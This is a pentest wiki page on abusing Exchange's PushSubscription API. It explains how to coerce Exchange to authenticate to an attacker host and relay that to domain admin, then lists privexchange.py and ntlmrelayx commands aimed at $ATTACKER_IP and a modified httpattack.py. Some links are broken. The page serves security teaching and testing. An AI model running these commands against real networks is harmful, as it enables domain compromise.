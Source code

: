 # PushSubscription abuse

## Theory

"PushSubscription" is an API on Exchange Web Services that allows to subscribe to push notifications. Attackers abuse it to make Exchange servers authenticate to a target of their choosing. **The coerced authentication is made over HTTP**, which is particularly powerful when doing [NTLM relay](broken-reference) ([because of the Session Signing and MIC mitigations](broken-reference)). As Exchange servers usually have high privileges in a domain (i.e. `WriteDacl`, see [Abusing ACLs](../dacl/)), the forced authentication can then be relayed and abused to obtain domain admin privileges (see [NTLM Relay](broken-reference) and [Kerberos Unconstrained Delegations](../kerberos/delegations/#unconstrained-delegations-kud)).

## Practice

[PrivExchange](https://github.com/dirkjanm/privexchange/) (Python) is a tool able to log in on Exchange Web Services and call that API.

```bash
privexchange.py -d $DOMAIN -u '$DOMAIN_USER' -p '$PASSWORD' -ah $ATTACKER_IP $EXCHANGE_SERVER_TARGET
```

{% hint style="info" %}
In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](broken-reference) to make the API call.

The modified [httpattack.py](https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py) can be used with ntlmrelayx.py to perform this attack. The attacker host needs to be modified in the script since it is hard-coded.

```bash
cd /PATH/TO/impacket/impacket/examples/ntlmrelayx/attacks/httpattack.py
mv httpattack.py httpattack.py.old
wget https://raw.githubusercontent.com/dirkjanm/PrivExchange/master/httpattack.py
sed -i 's/attacker_url = .*$/attacker_url = "$ATTACKER_URL"/' httpattack.py
cd /PATH/TO/impacket
pip3 install .
ntlmrelayx.py -t https://exchange.server.EWS/Exchange.asmx
```
{% endhint %}

{% hint style="warning" %}
On February 12th 2019, Microsoft released updates for Exchange which resolved

* the coerced authentication issue
* the fact that Exchange servers had overkill permissions leading attacker to a full domain compromission.
{% endhint %}

## References

{% embed url="https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/" %}
